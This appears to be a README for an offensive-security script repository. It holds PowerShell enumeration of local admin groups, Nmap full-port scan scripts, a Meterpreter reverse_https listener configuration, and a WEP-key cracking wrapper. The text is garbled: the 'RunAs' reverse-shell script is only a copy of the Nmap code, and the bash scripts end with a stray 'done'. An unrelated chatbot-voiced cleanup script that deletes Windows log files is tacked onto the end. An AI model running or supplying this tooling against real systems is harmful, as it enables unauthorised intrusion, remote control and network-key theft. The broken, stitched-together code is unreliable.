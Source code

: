 # Scripts

* LocalAdmins.ps1 - Checks a file of host servers for members of the Administrators, Remote Desktop Users, and Users local groups.
* NSLookUp.ps1 - Runs a NSLookUp query against a file of host servers.
* PrivateIP - Runs a Nmap scan on against a file of host servers with Private IP's to check both TCP and UDP ports.
* PublicIP - Runs a Nmap scan on against a file of host servers with Public IP's to check both TCP and UDP ports.
* RunAs.ps1 - Runs a 'RunAs' command to switch context of user whilst triggering and initiating a reverse shell to the attacker.
* Meterpreter.rc - Sets a Meterpreter listener/handler with options (msfconsole -q -r Meterpreter.rc).
* WEPCracker.py - Wrapper script to crack WEP using Airdecap-ng.


### LocalAdmins.ps1

```
$servers = Get-Content C:\servers.txt
$groups = 'Administrators', 'Remote Desktop Users', 'Users'
$results = foreach ($server in $servers) {
    foreach ($group in $groups) {
        $obj = [ADSI]"WinNT://$server/$group"
        $obj.Invoke('Members') | % {
            $path = ([adsi]$_).path
            [pscustomobject]@{
                Computer = $server
                Group = $group
                Domain = $(Split-Path (Split-Path $path) -Leaf)
                User = $(Split-Path $path -Leaf)
            }
        }
    }
}
$results
```

### NSLookUp.ps1

```
$servers = get-content "C:\temp\hostlist.txt"
foreach ($Server in $Servers)
{
    $Addresses = $null
    try {
        $Addresses = [System.Net.Dns]::GetHostAddresses("$Server").IPAddressToString
    }
    catch { 
        $Addresses = "Server IP cannot resolve."
    }
    foreach($Address in $addresses) {
        write-host $Server, $Address 
    }
}
```

### Private IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Private -oG PrivateTCP.txt
nmap -sU -v -iL ./Private -oG PrivateUDP.txt
done
```

### Public IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### RunAs.ps1

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### Meterpreter.rc

```
use exploit/multi/handler 
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 192.168.49.91 
set LPORT 443
set ExitOnSession false 
exploit -j -z 
```

### WEPCracker.py

```
#!/usr/bin/python

import sys, binascii, re
from subprocess import Popen, PIPE

f = open(sys.argv[1], 'r')
for line in f:
    wepKey = re.sub(r'\W+', '', line)
    
    if len(wepKey) != 5 :
        continue
    hexKey = binascii.hexlify(wepKey)
    print "Trying with WEP key: " +wepKey + " Hex: " + hexKey
    p = Popen(['/usr/bin/airdecap-ng', '-w', hexKey, 'WEP-Advanced.cap'], stdout=PIPE)
    output = p.stdout.read()
    finalResult = output.split('\n')[4]
    
    if finalResult.find('1') != -1 :
        print "Success WEP Key Found: " + wepKey
        sys.exit(0)
print "Failure! WEP key could not be found with the existing dictionary!"
```

### SystemCleanup.ps1

```
# System Cleanup Script
# Removes temporary files, log files, and clears recycle bin to optimize system performance

Write-Host "Starting System Cleanup..." -ForegroundColor Green

# Function to delete files from a specified directory older than a certain number of days
function Cleanup-Files {
    param (
        [string]$Path,
        [int]$DaysOld = 7
    )
    if (Test-Path $Path) {
        Get-ChildItem -Path $Path -Recurse -File | Where-Object {
            $_.CreationTime -lt (Get-Date).AddDays(-$DaysOld)
        } | Remove-Item -Force -Verbose
    } else {
        Write-Host "Path $Path does not exist." -ForegroundColor Yellow
    }
}

# Cleaning Windows Temp folder
Write-Host "Cleaning Temp folder..." -ForegroundColor Cyan
Cleanup-Files -Path "$env:Temp" -DaysOld 7

# Cleaning system Temp folder
Write-Host "Cleaning System Temp folder..." -ForegroundColor Cyan
Cleanup-Files -Path "C:\Windows\Temp" -DaysOld 7

# Deleting old log files
Write-Host "Cleaning Log files..." -ForegroundColor Cyan
Cleanup-Files -Path "C:\Windows\Logs" -DaysOld 30
Cleanup-Files -Path "C:\ProgramData\Logs" -DaysOld 30

# Clearing Recycle Bin
Write-Host "Clearing Recycle Bin..." -ForegroundColor Cyan
Clear-RecycleBin -Confirm:$false -Verbose

Write-Host "System Cleanup Completed!" -ForegroundColor Green
```

How to Use:
Save the script as SystemCleanup.ps1.
Open PowerShell as an Administrator.
Run the script using: .\SystemCleanup.ps1.
This script cleans up temporary files older than 7 days, log files older than 30 days, and clears the Recycle Bin. You can customize the paths and retention periods as needed. Let me know if you need further assistance!
